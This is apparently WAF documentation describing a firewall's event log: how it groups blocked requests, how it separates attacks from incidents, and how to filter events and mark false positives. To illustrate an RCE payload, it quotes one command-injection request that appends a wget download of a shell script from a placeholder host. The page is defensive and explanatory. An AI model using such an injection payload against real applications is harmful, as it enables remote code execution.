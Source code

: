 ```yaml
---
title: view-the-history-of-attacks-on-your-application
displayName: View events
published: true
order: 10
toc:
   --1--About the function: "about-the-function"
   --1--Why to use: "why-to-view-events"
   --1--How to use: "how-to-use-events"
   --2--Open a list of events: "open-a-list-of-events"
   --2--Filter: "apply-filters"
   --2--Mark requests as false positive: "mark-requests-as-false-positive"
---
```

# View the history of attacks on your application
   
## About the function

"Events" is a log that stores information about all malicious requests for your resources that were repelled by the <a href="https://gcore.com/web-security" target="_blank">Web Application Firewall (WAF)</a>. This is what the log looks like:

<img src="https://support.gcore.com/hc/article_attachments/13308735756561" alt="">

Each line in the log is called an _event_. An event is a single malicious request or several such requests connected to each other. For example, if a hacker sends one request to inject malicious code into the structure of an XML document, the log shows this as a separate event. And if a hacker makes a thousand requests to guess a password, the log groups all requests into one event with the "brute force" type of an attack. You can open such an event and view information on each of the thousand of requests.  

The WAF combines several requests into one event if they have three things in common:  

1. **Type of attack** — sqli, xss, rce, ptrav, crlf, nosqli, overlimit_res, xxe, ldapi, scanner, ssti, ssi, mail_injetion, invalid_xml, data_bomb, dirbust, brute, vpatch, infoleak or redir.  
    
2. **Payload** — part of a malicious request that contains instructions on what to do with the attacked application and helps to define the type of an attack. Example: an attacker wants to inject malicious code into your application (RCE attack) and makes the following request: *curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh*. The malicious payload is *wget+http://s*. It says to start data downloading in the application. Please note that some malicious requests have no payload, for example, behavioral attacks (different types of brute force attacks). 
3. **URL of a page or an application file** to which the request was sent.  

At the same time, an attacker's IP address and the time of requests may differ. Even if requests are sent from different IP addresses and on different days, but they use the same attack type, payload and attacked URL, they will be combined into one event.

<img src="https://support.gcore.com/hc/article_attachments/7363054594833/image_1863.png" alt="">

All events in the log are divided into two types: attacks and incidents. 

**An attack** is any malicious request. 

Not all events of the *attack* type are dangerous. Some malicious requests cannot cause damage because they target well-protected parts of an application. Your application would handle such requests even without the WAF. But other requests pose a real threat because they target vulnerabilities — if the WAF had not stopped them, they would have damaged the application. These requests are the *incidents*. 

**An incident** is a malicious request that targets a vulnerability of an application.  

When the WAF receives a malicious request, it blocks it and creates an event of the *attack* type. Then it analyses if this request targets a vulnerable part of an application or a well-protected one. If the target is a vulnerable part, the WAF creates an *incident*, if it is a well-protected one, the WAF does nothing. 

How our WAF detects vulnerabilities: 

1. From time to time, it sends different malicious test requests to check the application's response. Such requests are not dangerous, but they help to find out how the application would behave in the event of a real attack.  
    
2. When a real attack occurs, the WAF blocks it. Then the WAF copies the attacking request, cuts out the malicious part and cookies from it, and sends several similar requests to the application on its own behalf. These requests won't cause damage, but will help find out how the application would react to an attack if the WAF didn't stop it.  
    
3. It evaluates the result of the checks from Steps 1 and 2. If the requests have reached their goal, the WAF considers that there is a vulnerability; if the application's response does not indicate that it is vulnerable to an attack, then there is no vulnerability.

Example of the check: an attacker sends a request of the "open redirect" (redir) type — this type of attack changes links inside your application so that when an end-user clicks on a link, they get to a scammer’s page. The WAF detects the malicious request, cuts out cookies and the malicious part from it, and then sends several such "neutralized" requests to the application on its behalf. If the application does not deny requests, the WAF counts it as a vulnerability; if the application blocks requests, the WAF considers that there is no vulnerability. 

## Why to view "Events"?   

"Events" will show detailed information about malicious requests sent to your application. Here are three examples of when this can be useful.  

**Detect and fix vulnerabilities**. You open events of the "incident" type and see which parts of your application are vulnerable and to which types of attacks. Then you eliminate these vulnerabilities.   

**Prevent attacks from specific scammers**. With the event log, you check whether your application is frequently attacked from a specific region or from a specific IP address. Such attacks are harmless (the WAF blocks them), but your server has to process them and waste resources. To offload your server resources, you exclude attacking IP addresses or the most attacking region in the "Access Settings" according to the guide: <a href="https://gcore.com/docs/set-the-access-policy-for-a-protected-resource" target="_blank">Access Policy</a>.  

**Collect analytics data to protect the non-public part of your application**. You analyze the log of malicious requests and figure out the most common attack methods and attacking IP addresses. With this in mind, you arrange internal resources that are not protected by the WAF (for example, an application administration panel or a non-public platform for employees) so that they are protected from common types of attacks. You also block IP addresses of scammers that often send malicious requests.  

## How to use "Events"  

### Open a list of events

Go to "Events" and select which events you want to see — incidents or attacks. The list of events opens.

<img src="https://support.gcore.com/hc/article_attachments/13308771037585" alt="">

The list shows the following columns:  

- **Date** — date when the latest request of the event is received.   
- **Hits** — number of separate requests (one hit is one request) grouped inside the event.   
- **Payloads** — type of the attack.  
- **Top IP / Source** — country code to which the attacker's IP address belongs to.  If there are several addresses, the column shows the code of the country from where the most requests were sent.   
- **Domain / Path** — domain name of the application to which the request was sent, as well as the path that was requested. The last line shows the application ID from the Gcore control panel.   
- **Code** — response code returned to the malicious request.   
- **Parameter** — parameter that the malicious request contained. If a request uses an attack without an endpoint (for example, brute force attacks), the line will show the "unknown" value. 

If an event contains multiple requests, you can expand the list of all requests by clicking on the "+" icon on the left of the date. For each request, you will see general information: *date, payloads, top IP/source, domain/path, code, parameter*. Besides, there will be two additional columns: the request size and the time that the WAF spent processing the request.

### Apply filters  

To sort events, use filters.

<img src="https://support.gcore.com/hc/article_attachments/7363274806929/image_1835.png" alt="">

**Selected Types** — types of attacks. Twenty types are available: sqli, xss, rce, ptrav, crlf, nosqli, overlimit_res, xxe, ldapi, scanner, ssti, ssi, mail_injetion, invalid_xml, data_bomb, dirbust, brute, vpatch, infoleak, redir.

**Time interval** — period for which you want to view the events. You can only view events recorded for the last three months, older events are not saved.

**Application** — applications that received malicious requests. If you do not apply the filter, the log will show all requests sent to all applications of your account.

**IP** — IP addresses that have sent the requests. You can specify specific IP addresses or a range of addresses like 10.0.0.0–10.255.255.255. If you do not apply the filter, you will see events with requests sent from any IP addresses.

**Domains** — URLs of pages or files that were requested by attackers. If you don't use the filter, you will see events with the requests sent to all your domains. 

**Response Code** — response codes returned to the malicious request. If you do not use the filter, you will only see the requests that received 403 and 500 errors.

**Target** — targets of malicious requests. You can filter the attacks that targeted user data (the target is *client*), databases (the target is *database*), or a server (the target is *server*). If nothing is applied, the log will show requests to all three targets.

**Selected Countries** — countries from those requests were sent.  If you don't use the filter, requests from 249 countries will be displayed. 

### Mark requests as false positive

If the WAF has blocked a legitimate request, click the "+" icon in the event line (after clicking it will change to "–"), and then click the **Mark as false positive** button. The WAF will stop blocking such requests.

<img src="https://support.gcore.com/hc/article_attachments/13308797025553" alt="">